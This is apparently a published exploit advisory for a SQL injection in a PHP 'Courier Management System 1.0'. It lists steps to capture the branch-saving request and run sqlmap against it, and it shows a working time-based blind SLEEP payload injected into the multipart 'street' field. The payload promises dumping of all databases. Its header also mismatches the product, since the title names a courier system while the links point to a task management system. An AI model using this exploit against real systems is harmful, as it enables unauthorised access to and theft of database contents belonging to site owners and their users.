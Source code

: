 # Exploit Title: Courier Management System 1.0 - 'MULTIPART street ' SQL Injection
## Exploit Author: Zhaiyi (Zeo)
## Date: 2020-12-11
## Vendor Homepage: https://www.sourcecodester.com/php/14615/task-management-system-using-phpmysqli-source-code.html
## Software Link: https://www.sourcecodester.com/download-code?nid=14615&title=Task+Management+System+using+PHP%2FMySQLi+with+Source+Code
## Affected Version: Version 1
## Category: Web Application

Step 1. Log into application with credentials

Step 2. Click on Branch

Step 3. Select New Branch http://127.0.0.1/index.php?page=new_branch

Step 4. Fill the form  , click on save

Step 5. Capture the request of the ""/ajax.php?action=save_branch"" page in burpsute

Step 6. Save request and run sqlmap on request file using command " sqlmap -r request --time-sec=5 --dbs "

Step 7. This will inject successfully and you will have an information disclosure of all databases contents


```
---
Parameter: MULTIPART street ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="id"


-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="street"

11111111111' AND (SELECT 8687 FROM (SELECT(SLEEP(5)))XZFt) AND 'OQNu'='OQNu
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="city"

111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="state"

1111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="zip_code"

11111111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="country"

1111111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="contact"

111111111
-----------------------------12317926718649295872939507245--
---
```


